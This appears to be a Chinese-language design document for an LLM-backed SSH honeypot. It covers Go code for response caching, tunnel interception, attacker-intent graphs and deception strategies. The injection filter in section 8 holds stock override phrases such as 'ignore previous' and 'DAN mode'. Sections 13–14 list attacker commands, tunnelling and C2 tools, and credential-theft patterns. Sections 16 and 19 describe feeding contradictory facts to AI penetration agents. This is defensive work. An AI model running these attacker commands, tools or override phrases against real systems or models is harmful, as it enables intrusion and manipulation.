        if host == nil {
            return `{"status": "no_host"}`
        }
        for _, svc := range host.Services {
            if svc.Port == port {
                return fmt.Sprintf(`{"status": "listening", "service": "%s", "banner": "%s"}`,
                    svc.NmapName, svc.Banner)
            }
        }
        return `{"status": "closed"}`

    case "check_visibility":
        targetIP := args["target_ip"].(string)
        host := topology.GetHost(targetIP)
        if host == nil {
            return `{"reachable": false, "reason": "no_host"}`
        }
        if host.Shadow {
            return `{"reachable": true, "reason": "shadow_host"}`
        }
        visible := topology.GetHostsForSession(session)
        for _, v := range visible {
            if v.IP == targetIP {
                return `{"reachable": true}`
            }
        }
        return `{"reachable": false, "reason": "no_route"}`

    case "get_file_content":
        path := args["path"].(string)
        content, exists := session.VFS.ReadFile(path)
        if !exists {
            return `{"error": "file_not_found"}`
        }
        return fmt.Sprintf(`{"content": %q, "size": %d, "perms": %q}`,
            content.Content, content.Size, content.Perms)

    // ... 其他工具
    }
    return `{"error": "unknown_tool"}`
}
```

## 7. 延迟优化策略

### 7.1 分层响应时间

```
Command Type          | Expected Latency | Implementation
--------------------- | ---------------- | --------------
exit, cd, clear       | < 1ms            | Direct execution
ls, cat, whoami       | 10-50ms          | Rule engine + jitter
grep, find            | 50-200ms         | Rule engine + file size jitter
mysql, python3        | 200-500ms        | Small model (7B) or cache
ssh user@host         | 500-2000ms       | LLM with tools
nmap, complex scan    | 2-5s             | LLM + realistic delay
curl/wget             | 200-1000ms       | Rule engine + network delay
```

### 7.2 缓存层

```go
type ResponseCache struct {
    mu      sync.RWMutex
    entries map[string]CacheEntry
    ttl     time.Duration
}

type CacheEntry struct {
    Response  string
    Timestamp time.Time
    HitCount  int
}

func (rc *ResponseCache) Key(cmd string, session *SessionContext) string {
    // 相同命令 + 相同 session 状态 → 缓存命中
    // 但如果 session 状态变了（如 CWD 改了），缓存失效
    return fmt.Sprintf("%s:%s:%s:%s",
        cmd, session.CWD, session.User, session.ShellMode)
}

func (rc *ResponseCache) Get(cmd string, session *SessionContext) (string, bool) {
    key := rc.Key(cmd, session)
    rc.mu.RLock()
    defer rc.mu.RUnlock()
    entry, ok := rc.entries[key]
    if !ok || time.Since(entry.Timestamp) > rc.ttl {
        return "", false
    }
    entry.HitCount++
    return entry.Response, true
}
```

### 7.3 预测性预取

```go
func (pf *Prefetcher) OnCommand(cmd string, session *SessionContext) {
    // 当攻击者执行 `ssh user@host` 时，预取目标主机信息
    if strings.HasPrefix(cmd, "ssh ") {
        ip := extractIP(cmd)
        go pf.prefetchHostInfo(ip, session)
    }

    // 当攻击者执行 `cat /etc/passwd` 时，预取 shadow 文件
    if strings.Contains(cmd, "cat") && strings.Contains(cmd, "/etc/passwd") {
        go pf.prefetchFile("/etc/shadow", session)
    }

    // 当攻击者执行 `mysql` 时，预取数据库信息
    if strings.HasPrefix(cmd, "mysql") {
        go pf.prefetchMySQLInfo(session)
    }
}
```

## 8. 防 Prompt Injection

### 8.1 多层防御

```go
type PromptInjectionDefense struct {
    // Layer 1: 正则匹配（< 1ms）
    regexPatterns []*regexp.Regexp

    // Layer 2: 关键词检测（< 1ms）
    keywords []string

    // Layer 3: LLM 分类器（100-300ms，仅在可疑时触发）
    classifierEnabled bool
}

var injectionPatterns = []*regexp.Regexp{
    regexp.MustCompile(`(?i)ignore\s+(all\s+)?previous`),
    regexp.MustCompile(`(?i)you\s+are\s+now`),
    regexp.MustCompile(`(?i)new\s+system\s+prompt`),
    regexp.MustCompile(`(?i)forget\s+(all\s+)?instructions`),
    regexp.MustCompile(`(?i)act\s+as\s+if`),
    regexp.MustCompile(`(?i)pretend\s+you\s+are`),
    regexp.MustCompile(`(?i)DAN\s+mode`),
    regexp.MustCompile(`(?i)jailbreak`),
}

var injectionKeywords = []string{
    "ignore previous", "new prompt", "system prompt",
    "you are an AI", "language model", "honeypot",
    "break character", "reveal true",
}

func (pid *PromptInjectionDefense) Check(cmd string) (bool, string) {
    // Layer 1: 正则
    for _, p := range pid.regexPatterns {
        if p.MatchString(cmd) {
            return true, "regex_match"
        }
    }

    // Layer 2: 关键词
    lower := strings.ToLower(cmd)
    for _, kw := range pid.keywords {
        if strings.Contains(lower, kw) {
            return true, "keyword_match"
        }
    }

    // Layer 3: LLM 分类器（仅在命令长度 > 50 字符时触发，减少开销）
    if pid.classifierEnabled && len(cmd) > 50 {
        if pid.classifyWithLLM(cmd) {
            return true, "llm_classified"
        }
    }

    return false, ""
}

// 检测到注入时的响应
func (pid *PromptInjectionDefense) Respond(cmd string) string {
    // 不要返回 "prompt injection detected"，这会暴露蜜罐
    // 返回一个合理的 bash 错误
    parts := strings.Fields(cmd)
    if len(parts) > 0 {
        return fmt.Sprintf("bash: %s: command not found\n", parts[0])
    }
    return "bash: syntax error near unexpected token\n"
}
```

## 9. 完整执行流程

```
Attacker types command
         │
         ▼
    ┌─────────────┐
    │ Prompt      │ ─── 检测到注入? ──→ 返回 "command not found"
    │ Injection   │
    │ Defense     │
    └──────┬──────┘
           │
           ▼
    ┌─────────────┐
    │ Command     │ ─── ClassDirect ──→ 直接执行 (exit/cd/clear)
    │ Classifier  │
    │             │ ─── ClassFastPath ──→ Rule Engine ──→ Consistency Guard ──→ Response
    │             │
    │             │ ─── ClassComplex ──→ LLM Orchestrator ──→ ...
    └──────┬──────┘
           │ ClassComplex
           ▼
    ┌─────────────┐
    │ Response    │ ─── Cache hit? ──→ 返回缓存 ──→ Consistency Guard ──→ Response
    │ Cache       │
    └──────┬──────┘
           │ Cache miss
           ▼
    ┌─────────────┐
    │ Memory      │
    │ Manager     │ → Build context: system prompt + facts + summary + recent + cmd
    └──────┬──────┘
           │
           ▼
    ┌─────────────┐
    │ Strategy    │ → 检查是否需要注入拓扑/投放线索/扩展网络
    │ Engine      │ → StrategyAction (with delay)
    └──────┬──────┘
           │
           ▼
    ┌─────────────┐
    │ LLM Call    │ → OpenAI / Ollama / Local 7B
    │ (with tools)│ → Function calling: resolve_service, check_visibility, ...
    └──────┬──────┘
           │
           ▼
    ┌─────────────┐
    │ Consistency │ → 检查: OS/hostname/IP/markdown/AI disclosure/path consistency
    │ Guard       │ → 修复不一致的输出
    └──────┬──────┘
           │
           ▼
    ┌─────────────┐
    │ CoVe Verify │ → 高风险输出: 提权/敏感文件/SSH/数据库
    │ (optional)  │ → 多采样一致性检查 (3次独立生成)
    └──────┬──────┘
           │
           ▼
    ┌─────────────┐
    │ Delay       │ → 根据命令类型注入合理延迟
    │ Injection   │ → nmap: 2-5s, cat: 50-200ms, ssh: 500-2000ms
    └──────┬──────┘
           │
           ▼
    ┌─────────────┐
    │ Update      │ → 更新 SessionFacts, WorkingMemory, AttackerProfile
    │ Memory      │ → 触发策略引擎评估
    └──────┬──────┘
           │
           ▼
       Response to attacker
```

## 10. LLM Provider 选择

### 10.1 双模型策略

```go
type LLMProvider struct {
    // 大模型: 复杂场景（SSH 交互、多步推理、工具调用）
    primary   ModelClient // GPT-4o / Claude Sonnet / DeepSeek-V3

    // 小模型: 简单分类、验证、摘要
    secondary ModelClient // Local 7B (Qwen2.5-7B / Llama-3.1-8B)
}

func (lp *LLMProvider) SelectModel(cmd string, session *SessionContext) ModelClient {
    // 简单分类/验证 → 小模型
    if isClassificationTask(cmd) {
        return lp.secondary
    }

    // 摘要压缩 → 小模型
    if isSummaryTask(cmd) {
        return lp.secondary
    }

    // 复杂交互 → 大模型
    return lp.primary
}
```

### 10.2 本地小模型部署

```yaml
# docker-compose.yml
services:
  llm-local:
    image: ollama/ollama
    ports:
      - "11434:11434"
    volumes:
      - ollama-data:/root/.ollama
    deploy:
      resources:
        reservations:
          devices:
            - driver: nvidia
              count: 1
              capabilities: [gpu]

  # 或者用 llama.cpp 纯 CPU
  llm-local:
    image: ghcr.io/ggerganov/llama.cpp:server
    command: >
      --model /models/qwen2.5-7b-instruct-q4_k_m.gguf
      --port 8080
      --ctx-size 4096
      --threads 4
```

## 11. 实现优先级

| Phase | 内容 | 工作量 | 价值 |
|-------|------|--------|------|
| P0 | Command Router + Consistency Guard | 2 天 | 防止 80% 的暴露 |
| P1 | Memory Manager (三层记忆 + Contradiction-Aware Prompting) | 3 天 | 防灾难性遗忘 |
| P2 | Tool Layer (function calling) | 2 天 | LLM 拓扑感知 |
| P3 | Strategy Engine (反 AI/反人类) | 3 天 | 主动欺骗 |
| P4 | CoVe + Multi-Sample Verification | 2 天 | 高风险输出验证 |
| P5 | Cache + Prefetch + Delay | 2 天 | 体验优化 |
| P6 | Prompt Injection Defense | 1 天 | 安全加固 |
| P7 | 本地小模型集成 | 2 天 | 降低延迟 + 成本 |

**总计: ~15 天**

## 12. 与 Beelzebub 的对比

| 特性 | Beelzebub | AlterHive |
|------|-----------|-----------|
| 拓扑感知 | 无 | ServiceRegistry + VirtualTopology |
| 状态管理 | 仅历史记录 | SessionFacts + VFS + AttackerProfile |
| 一致性检查 | 无 | ConsistencyGuard + 不变量 + CoVe + SelfCheckGPT |
| Prompt injection 防御 | LLM-as-judge (同模型) | 正则 + 关键词 + LLM (多层) |
| 延迟优化 | 无 | 快路径 + 缓存 + 预取 + 双模型 |
| 历史管理 | 全量追加 | 滑动窗口 + 压缩摘要 |
| 欺骗策略 | 无 | StrategyEngine (反 AI + 反人类) |
| 工具调用 | 无 | Function calling (7 个工具) |
| 输出验证 | 同模型 LLM 判断 | 不变量系统 + 修复 |

## 13. SSH 代理隧道与内网穿透拦截

### 13.1 攻击者使用的代理/隧道工具全景

| 类别 | 工具 | 原理 | 在蜜罐中的行为 |
|------|------|------|---------------|
| **SSH 隧道** | `ssh -D/-L/-R` | SSH 协议级端口转发 | 可在协议层拦截 |
| **HTTP 隧道** | suo5, reGeorg, Neo-reGeorg | HTTP 请求中夹带 TCP 数据 | 需要上传二进制 + 执行 |
| **反向代理** | frp, nps, rathole | C2 架构, 蜜罐→攻击者服务器 | 需要上传二进制 + 执行 + 外连 |
| **正向代理** | gost, ssocks, microsocks | SOCKS5/HTTP 代理 | 需要上传二进制 + 执行 |
| **DNS 隧道** | iodine, dnscat2 | DNS 查询中夹带数据 | 需要上传二进制 + 执行 + DNS |
| **ICMP 隧道** | icmpsh, ptunnel | ICMP 包中夹带数据 | 需要上传二进制 + 执行 |

### 13.2 两层问题分离

```
┌─────────────────────────────────────────────────────────────┐
│  Layer A: SSH 协议级隧道 (ssh -D/-L/-R)                     │
│  → 不需要上传/执行二进制, SSH 协议本身支持                    │
│  → 必须在 sshd 层面拦截                                     │
│  → 攻击者从外部机器通过隧道访问蜜罐虚拟内网                   │
├─────────────────────────────────────────────────────────────┤
│  Layer B: 工具级代理 (frp/nps/suo5/gost...)                 │
│  → 需要上传二进制到蜜罐并执行                                │
│  → 蜜罐是 shell 模拟器, 不能真正执行二进制                    │
│  → 需要模拟工具行为 + 拦截外连                               │
└─────────────────────────────────────────────────────────────┘
```

### 13.3 Layer A: SSH 协议级隧道拦截

**原理**: gliderlabs/ssh v0.3.8 支持 `ChannelHandler` 回调，可拦截 `direct-tcpip` channel。

**实现**:

```go
// internal/proxy/ssh_interceptor.go

type SSHProxyInterceptor struct {
    topology *domain.VirtualTopology
    safety   *domain.SafetyPolicy
    session  *domain.SessionContext
}

func (pi *SSHProxyInterceptor) Register(server *ssh.Server) {
    // 拦截 direct-tcpip (ssh -D, ssh -L)
    server.ChannelHandler = pi.handleChannel
}

func (pi *SSHProxyInterceptor) handleChannel(ctx ssh.Context, newChan gossh.NewChannel) {
    if newChan.ChannelType() == "direct-tcpip" {
        // 解析目标地址
        var payload struct {
            Host       string
            Port       uint32
            OriginHost string
            OriginPort uint32
        }
        gossh.Unmarshal(newChan.ExtraData(), &payload)

        action := pi.classifyTarget(payload.Host, payload.Port)

        switch action {
        case "virtual":
            // 允许连接, 路由到虚拟服务引擎
            channel, _ := newChan.Accept()
            go pi.handleVirtualConnection(channel, payload.Host, payload.Port)

        case "real_internal":
            // 拦截真实内网访问
            newChan.Reject(gossh.ConnectionFailed, "Connection refused")

        case "external":
            // 外网: 模拟超时 (浪费攻击者时间)
            newChan.Reject(gossh.ConnectionFailed, "Connection timed out")
        }
        return
    }

    // 其他 channel 类型走默认处理 (session, etc.)
    newChan.Accept()
}

// 分类目标
func (pi *SSHProxyInterceptor) classifyTarget(host string, port uint32) string {
    // 1. 虚拟拓扑中的 IP?
    if pi.topology.IsVirtualIP(host) || pi.topology.GetHost(host) != nil {
        return "virtual"
    }
    // 2. 虚拟拓扑 CIDR 范围?
    for _, seg := range pi.topology.AllSegments() {
        if ipInCIDR(host, seg.CIDR) {
            return "virtual"
        }
    }
    // 3. 真实内网?
    if isPrivateIP(host) {
        return "real_internal"
    }
    // 4. 外网
    return "external"
}
```

**虚拟服务引擎** — 处理代理过来的 TCP 连接:

```go
func (pi *SSHProxyInterceptor) handleVirtualConnection(channel gossh.Channel, host string, port uint32) {
    defer channel.Close()

    buf := make([]byte, 4096)
    n, _ := channel.Read(buf)

    // 根据端口分发到对应 responder
    switch port {
    case 80, 443, 8080:
        // HTTP — 解析 HTTP 请求, 复用 http.go
        resp := pi.handleHTTPProxy(host, int(port), buf[:n])
        channel.Write(resp)

    case 3306:
        // MySQL — 返回握手包
        resp := mysqlHandshakePacket(host)
        channel.Write(resp)

    case 22:
        // SSH — 返回 SSH banner
        channel.Write([]byte("SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.6\r\n"))

    case 6379:
        // Redis
        channel.Write([]byte("+PONG\r\n"))

    default:
        // 未知端口 — 返回 RST (connection refused)
        // channel 关闭即触发 RST
    }
}
```

**SOCKS5 协议解析** (ssh -D 产生的流量):

```go
func parseSOCKS5Request(data []byte) (host string, port uint16, err error) {
    if len(data) < 10 || data[0] != 0x05 {
        return "", 0, errors.New("not SOCKS5")
    }
    switch data[3] { // ATYP
    case 0x01: // IPv4
        ip := net.IP(data[4:8])
        port = binary.BigEndian.Uint16(data[8:10])
        return ip.String(), port, nil
    case 0x03: // Domain
        domainLen := int(data[4])
        domain := string(data[5 : 5+domainLen])
        port = binary.BigEndian.Uint16(data[5+domainLen : 7+domainLen])
        return domain, port, nil
    case 0x04: // IPv6
        ip := net.IP(data[4:20])
        port = binary.BigEndian.Uint16(data[20:22])
        return ip.String(), port, nil
    }
    return "", 0, errors.New("unknown ATYP")
}
```

### 13.4 Layer B: 工具级代理拦截

**核心问题**: frp/nps/suo5 等工具需要在蜜罐内执行二进制。但蜜罐是 shell 模拟器，不能真正执行二进制。

**策略: 模拟工具行为 + 拦截外连**

#### 场景 1: 攻击者上传二进制

```bash
# 攻击者通过 SCP 上传
scp frpc root@honeypot:/tmp/frpc

# 蜜罐行为: SCP 接受上传 (记录文件到虚拟FS)
# 但不真正写入文件系统
```

#### 场景 2: 攻击者执行工具

```bash
# 攻击者执行
chmod +x /tmp/frpc && /tmp/frpc -c frpc.ini

# 蜜罐行为: 返回模拟输出
```

**模拟 frp 客户端输出**:

```go
func handleFRPExec(cmd string, session *SessionContext) string {
    // 检测是否是 frp 相关命令
    if !isProxyTool(cmd) {
        return "", false
    }

    // 模拟 frp 启动输出
    return `2024/01/15 08:30:15 [I] [service.go:302] [a1b2c3d4e5f6] login to server success
2024/01/15 08:30:15 [I] [proxy_manager.go:142] proxy added: [ssh]
2024/01/15 08:30:15 [I] [control.go:181] [ssh] start proxy success
`, true
}

func isProxyTool(cmd string) bool {
    proxies := []string{"frpc", "frps", "npc", "npc-server", "suo5",
        "gost", "ssocks", "microsocks", "reGeorg", "neo-reGeorg",
        "iodine", "dnscat2", "chisel", "ligolo", "rathole"}
    for _, p := range proxies {
        if strings.Contains(cmd, p) {
            return true
        }
    }
    return false
}
```

#### 场景 3: 外连拦截

工具执行后会尝试外连 C2 服务器。蜜罐需要拦截:

```go
func (pi *ProxyInterceptor) handleOutbound(host string, port int) bool {
    // 1. 目标是虚拟拓扑? → 允许
    if pi.topology.IsVirtualIP(host) {
        return true
    }

    // 2. 目标是真实外网? → 策略选择
    strategy := pi.safety.GetOutboundStrategy()

    switch strategy {
    case "block":
        return false // 拒绝外连

    case "simulate":
        // 模拟连接成功, 但不真正转发数据
        // 返回虚假的 C2 响应
        return true

    case "delay":
        // 模拟网络延迟, 然后超时
        time.Sleep(30 * time.Second)
        return false
    }

    return false
}
```

### 13.5 工具模拟策略

| 工具 | 模拟深度 | 攻击者看到的 | 成本 |
|------|---------|-------------|------|
| **frp/nps** | 启动日志 + 连接状态 | "proxy added, start success" | 低 |
| **suo5** | HTTP 响应 | "listening on :9999" | 低 |
| **reGeorg** | HTTP tunnel 响应 | "Tunnel ready" | 低 |
| **chisel** | 连接日志 | "Connected (Latency XXms)" | 低 |
| **gost** | SOCKS5 握手 | "SOCKS5 proxy listening" | 中 |
| **DNS 隧道** | DNS 响应 | 需要模拟 DNS 服务器 | 高 |
| **ICMP 隧道** | ICMP echo | 需要 raw socket | 高 |

**推荐策略**: 
- **frp/nps/suo5/chisel**: 模拟启动输出 + 外连超时 (低成本, 高欺骗性)
- **DNS/ICMP 隧道**: 返回 "command not found" (太复杂, ROI 低)

### 13.6 统一架构

```
SSH Connection
     │
     ▼
┌─────────────────┐
│ ChannelHandler  │ ── direct-tcpip ──→ SOCKS5/CONNECT 解析
│ (ssh -D/-L/-R)  │                      │
└────────┬────────┘                      ▼
         │                        ┌─────────────┐
         │                        │ 目标分类     │
         │                        │ virtual/real │
         │                        └──────┬──────┘
         │                               │
         ▼                               ▼
┌─────────────────┐              ┌─────────────┐
│ Session Handler │              │ Virtual     │
│ (interactive)   │              │ Service     │
│                 │              │ Engine      │
│ scp upload  ────│──→ 记录文件  │ (端口分发)  │
│ ./frpc      ────│──→ 模拟输出  │ HTTP/MySQL/ │
│ ./suo5      ────│──→ 模拟输出  │ SSH/Redis   │
│ curl/wget   ────│──→ 现有逻辑  └─────────────┘
└─────────────────┘
```

### 13.7 实现优先级

| Phase | 内容 | 工作量 | 效果 |
|-------|------|--------|------|
| **P0** | SSH direct-tcpip 拦截 + 目标分类 | 1 天 | ssh -D/-L 路由到虚拟拓扑 |
| **P1** | HTTP CONNECT 解析 + 响应 | 1 天 | curl --proxy 能用 |
| **P2** | SOCKS5 协议解析 | 1 天 | proxychains 能用 |
| **P3** | 虚拟服务引擎 (端口分发) | 2 天 | 通过代理看到 MySQL/SSH/HTTP |
| **P4** | 工具模拟 (frp/nps/suo5) | 2 天 | 上传执行不暴露蜜罐 |
| **P5** | 外连拦截 + 模拟 | 1 天 | C2 连接不泄露真实网络 |

**总计 ~8 天**

### 13.8 与 LLM 架构的集成

代理拦截产生的证据应该反馈给 LLM orchestrator:

```go
// 代理行为是高价值证据
session.Evidence.Hit("proxy_tunnel")        // SSH 隧道
session.Evidence.Hit("proxy_tool_upload")   // 上传代理工具
session.Evidence.Hit("proxy_tool_exec")     // 执行代理工具
session.Evidence.Hit("outbound_c2")         // 外连 C2

// 更新攻击者画像
session.AttackerProfile.BehaviorType = "persistent"
session.AttackerProfile.SkillLevel = "advanced"

// 触发策略引擎: 投放虚假 C2 响应, 引导攻击者进入更深的虚拟网络
```

## 14. 攻击者状态图谱

### 14.1 核心思想

将攻击者的状态建模为 **Fact-Intent-Hint 图谱**，实现对攻击者行为的结构化追踪：

| 概念 | 含义 | 示例 |
|------|------|------|
| **Fact** | 攻击者已确认的客观发现 | "192.168.56.10 开放SSH端口22" |
| **Intent** | 推测的攻击者意图（基于命令模式） | "尝试SSH暴力破解" |
| **Hint** | 我们注入的欺骗线索 | "备份文件中有数据库密码" |

### 14.2 数据结构

```go
// internal/domain/attacker_graph.go

type AttackerGraph struct {
    mu      sync.RWMutex
    Facts   map[string]Fact    // fact_id → Fact
    Intents map[string]Intent  // intent_id → Intent
    Hints   []Hint
}

type Fact struct {
    ID          string    `json:"id"`
    Type        string    `json:"type"`      // host_discovered, cred_found, service_identified
    Description string    `json:"description"`
    Evidence    []string  `json:"evidence"`  // 支撑证据（命令输出）
    Confidence  float64   `json:"confidence"` // 0.0-1.0
    CreatedAt   time.Time `json:"created_at"`
    From        []string  `json:"from"`      // 来源 fact IDs
}

type Intent struct {
    ID          string    `json:"id"`
    From        []string  `json:"from"`
    Description string    `json:"description"`
    Status      string    `json:"status"`    // active, achieved, blocked, abandoned
    Confidence  float64   `json:"confidence"`
    CreatedAt   time.Time `json:"created_at"`
}

type Hint struct {
    ID         string    `json:"id"`
    Content    string    `json:"content"`
    Target     string    `json:"target"`    // 引导攻击者去哪
    InjectedAt time.Time `json:"injected_at"`
    Consumed   bool      `json:"consumed"`
}
```

### 14.3 攻击意图推断

从攻击者命令自动推断意图：

```go
var intentPatterns = []IntentPattern{
    {Commands: []string{"nmap", "masscan", "netdiscover"}, Intent: "网络侦察", Confidence: 0.9},
    {Commands: []string{"cat /etc/shadow", "grep password"}, Intent: "凭据搜集", Confidence: 0.85},
    {Commands: []string{"ssh ", "su ", "mysql -h"}, Intent: "横向移动", Confidence: 0.8},
    {Commands: []string{"sudo -l", "find / -perm -4000"}, Intent: "权限提升", Confidence: 0.85},
    {Commands: []string{"scp ", "wget ", "curl "}, Intent: "数据外传", Confidence: 0.7},
    {Commands: []string{"ssh -D", "frpc", "nps", "suo5"}, Intent: "代理隧道", Confidence: 0.95},
}
```

### 14.4 为什么重要

- 攻击者的每一步都在图谱上留下痕迹
- 可以预测攻击者下一步可能做什么
- 当攻击者接近敏感区域时，提前部署欺骗

## 15. OODA 循环防御引擎

### 15.1 核心思想

从被动响应变为主动欺骗编排。每个命令都触发完整的 OODA 循环（源自军事决策理论）：

```
Observe → Orient → Decide → Act
(观察)    (定位)    (决策)    (执行)
```

### 15.2 实现

```go
// internal/deception/ooda_engine.go

type OODAEngine struct {
    graph      *AttackerGraph
    strategies []DeceptionStrategy
    topology   *domain.VirtualTopology
    session    *domain.SessionContext
}

// Observe 观察攻击者行为
func (e *OODAEngine) Observe(cmd string, output string) Observation {
    return Observation{
        Command:     cmd,
        Output:      output,
        Timestamp:   time.Now(),
        Facts:       e.extractFacts(cmd, output),
        Intents:     e.inferIntents(cmd, output),
        BehaviorTag: e.classifyBehavior(cmd),
    }
}

// Orient 定位当前状态
func (e *OODAEngine) Orient(obs Observation) Situation {
    e.graph.AddFacts(obs.Facts)
    e.graph.AddIntents(obs.Intents)
    
    return Situation{
        Graph:           e.graph.Snapshot(),
        AttackerProfile: e.session.AttackerProfile,
        DeadEndCount:    e.session.DeadEndCount,
        RiskLevel:       e.assessRisk(),
        ActiveIntents:   e.graph.ActiveIntents(),
    }
}

// Decide 选择欺骗策略
func (e *OODAEngine) Decide(sit Situation) DeceptionPlan {
    var actions []DeceptionAction
    
    for _, strategy := range e.strategies {
        if strategy.Condition(sit) {
            action := strategy.Execute(sit, e.topology)
            actions = append(actions, action)
            if len(actions) >= 3 { break }
        }
    }
    
    return DeceptionPlan{
        Actions:   actions,
        Delay:     e.calculateDelay(sit),
        Rationale: e.explainDecision(sit, actions),
    }
}

// Act 执行欺骗行动
func (e *OODAEngine) Act(plan DeceptionPlan) {
    for _, action := range plan.Actions {
        switch action.Type {
        case "inject_topology":
            e.topology.AppendSegment(action.Segment)
        case "plant_file":
            e.session.VFS.WriteFile(action.Path, action.Content)
        case "leak_credential":
            e.plantCredential(action.Credential)
        case "expand_network":
            e.expandNetwork(action.CIDR)
        case "inject_hint":
            e.graph.AddHint(action.Hint)
        }
    }
}
```

## 16. L1-L4 攻击者挫败检测

### 16.1 核心思想

对攻击者的挫败进行分级，不同等级触发不同的防御策略：

| 等级 | 含义 | 防御策略 |
|------|------|----------|
| **L1** | 工具使用错误（命令参数错误） | 不干预，让攻击者继续犯错 |
| **L2** | 信息不足（侦察不充分） | 投放线索，引导进入虚拟网络 |
| **L3** | 策略方向错误（攻击向量选错） | 扩展拓扑，制造新探索路径 |
| **L4** | 认知偏差（LLM幻觉/重复失败） | 投放矛盾信息，测试AI判断力 |

### 16.2 实现

```go
// internal/deception/frustration_analyzer.go

type FrustrationLevel int

const (
    FrustrationNone FrustrationLevel = iota
    FrustrationL1   // 工具使用错误
    FrustrationL2   // 信息不足
    FrustrationL3   // 策略方向错误
    FrustrationL4   // 认知偏差
)

type FrustrationAnalyzer struct {
    recentCommands []CommandResult
    failureCount   int
}

// Analyze 分析攻击者的挫败等级
func (fa *FrustrationAnalyzer) Analyze(cmd, output string, success bool) FrustrationAnalysis {
    if !success {
        level := fa.classifyFailure(cmd, output)
        fa.failureCount++
        
        return FrustrationAnalysis{
            Level:          level,
            FailureCount:   fa.failureCount,
            Pattern:        fa.detectPattern(),
            Recommendation: fa.recommendAction(level),
        }
    }
    
    fa.failureCount = 0
    return FrustrationAnalysis{Level: FrustrationNone}
}

// classifyFailure 分类失败类型
func (fa *FrustrationAnalyzer) classifyFailure(cmd, output string) FrustrationLevel {
    outputLower := strings.ToLower(output)
    
    // L1: 工具使用错误
    if strings.Contains(outputLower, "command not found") ||
        strings.Contains(outputLower, "invalid option") ||
        strings.Contains(outputLower, "syntax error") {
        return FrustrationL1
    }
    
    // L2: 信息不足
    if strings.Contains(outputLower, "connection refused") ||
        strings.Contains(outputLower, "no route to host") ||
        strings.Contains(outputLower, "0 hosts up") {
        return FrustrationL2
    }
    
    // L3: 策略方向错误（检测重复模式）
    if fa.isRepeatedFailure(cmd) {
        return FrustrationL3
    }
    
    // L4: 认知偏差（检测LLM幻觉特征）
    if fa.showsHallucinationSigns(output) {
        return FrustrationL4
    }
    
    return FrustrationL2
}
```

## 17. 欺骗效果追踪（信息素路径）

### 17.1 核心思想

追踪每条欺骗路径的效果，形成反馈循环：

- **成功欺骗** → 信息素增强
- **被识破** → 信息素衰减
- **自然衰减** → 时间推移自动减弱

### 17.2 实现

```go
// internal/deception/pheromone_trail.go

type PheromoneTrail struct {
    mu        sync.RWMutex
    trails    map[string]*Trail
    decayRate float64 // 衰减率，如 0.95
}

type Trail struct {
    ID           string    `json:"id"`
    Path         string    `json:"path"`
    Strength     float64   `json:"strength"`     // 0.0-1.0
    SuccessCount int       `json:"success_count"`
    FailCount    int       `json:"fail_count"`
    LastUsed     time.Time `json:"last_used"`
    Tags         []string  `json:"tags"`
}

// RecordSuccess 记录成功的欺骗
func (pt *PheromoneTrail) RecordSuccess(trailID string) {
    pt.mu.Lock()
    defer pt.mu.Unlock()
    trail := pt.getOrCreate(trailID)
    trail.SuccessCount++
    trail.Strength = math.Min(1.0, trail.Strength+0.2)
    trail.LastUsed = time.Now()
}

// RecordFailure 记录被识破的欺骗
func (pt *PheromoneTrail) RecordFailure(trailID string) {
    pt.mu.Lock()
    defer pt.mu.Unlock()
    trail := pt.getOrCreate(trailID)
    trail.FailCount++
    trail.Strength = math.Max(0.0, trail.Strength-0.3)
    trail.LastUsed = time.Now()
}

// GetStrongestTrails 获取最强的欺骗路径
func (pt *PheromoneTrail) GetStrongestTrails(n int) []*Trail {
    pt.mu.RLock()
    defer pt.mu.RUnlock()
    
    var trails []*Trail
    for _, t := range pt.trails {
        if t.Strength > 0.3 {
            trails = append(trails, t)
        }
    }
    
    sort.Slice(trails, func(i, j int) bool {
        return trails[i].Strength > trails[j].Strength
    })
    
    if len(trails) > n { trails = trails[:n] }
    return trails
}

// Decay 信息素衰减（定期调用）
func (pt *PheromoneTrail) Decay() {
    pt.mu.Lock()
    defer pt.mu.Unlock()
    
    for _, trail := range pt.trails {
        trail.Strength *= pt.decayRate
        if trail.Strength < 0.01 {
            delete(pt.trails, trail.ID)
        }
    }
}
```

### 17.3 欺骗路径分类

| 路径类型 | 描述 | 初始强度 |
|----------|------|----------|
| cred_honey_trail | 凭据蜜trail：在备份文件中放置虚假凭据 | 0.8 |
| network_expand_trail | 网络扩展：投放新的可达网段 | 0.7 |
| breadcrumb_trail | 面包屑线索：引导进入更深的虚拟网络 | 0.6 |
| complexity_trap | 复杂度陷阱：创建多层提权链 | 0.5 |

## 18. 门控欺骗策略网关

### 18.1 核心思想

实现欺骗策略的智能选择，本地策略优先，外部情报按需加载：

```
本地策略(优先) ──▶ 门控检查 ──▶ 外部情报(条件满足时)
```

### 18.2 实现

```go
// internal/deception/knowledge_gateway.go

type DeceptionKnowledgeGateway struct {
    localStrategies *StrategyStore
    externalIntel   *ThreatIntelStore
    pheromoneTrail  *PheromoneTrail
    gatePolicy      GatePolicy
}

type GatePolicy struct {
    MinConfidence      float64
    MaxExternalWeight  float64
    RequireConsistency bool
}

// SelectStrategy 选择欺骗策略
func (gkg *DeceptionKnowledgeGateway) SelectStrategy(
    situation Situation,
    profile AttackerProfile,
) DeceptionStrategy {
    
    // 1. 首先查询本地策略库（永远优先）
    localStrategy := gkg.queryLocalStrategies(situation, profile)
    if localStrategy != nil && localStrategy.Confidence >= gkg.gatePolicy.MinConfidence {
        return *localStrategy
    }
    
    // 2. 检查门控条件
    if !gkg.shouldQueryExternal(situation, profile) {
        return gkg.defaultStrategy(situation)
    }
    
    // 3. 查询外部威胁情报
    externalCandidates := gkg.queryExternalIntel(situation, profile)
    
    // 4. 一致性评分
    consistentHits := gkg.filterByConsistency(situation, externalCandidates)
    
    if len(consistentHits) > 0 {
        return gkg.adaptExternalStrategy(consistentHits[0], situation)
    }
    
    return localStrategy
}

// shouldQueryExternal 判断是否应该查询外部情报
func (gkg *DeceptionKnowledgeGateway) shouldQueryExternal(
    situation Situation,
    profile AttackerProfile,
) bool {
    if situation.DeadEndCount >= 3 { return true }
    if profile.SkillLevel == "apt" || profile.SkillLevel == "advanced" { return true }
    if situation.RiskLevel == "high" { return true }
    return false
}
```

## 19. 通用对抗策略

### 19.1 对抗 AI 渗透 Agent

AI Agent 通常具有以下特征，需要针对性防御：

| AI Agent 特征 | 防御策略 |
|---------------|----------|
| 基于图谱/状态空间搜索 | 注入矛盾事实，污染搜索空间 |
| 并发探索多条路径 | 扩展多个虚假网段，分散探索 |
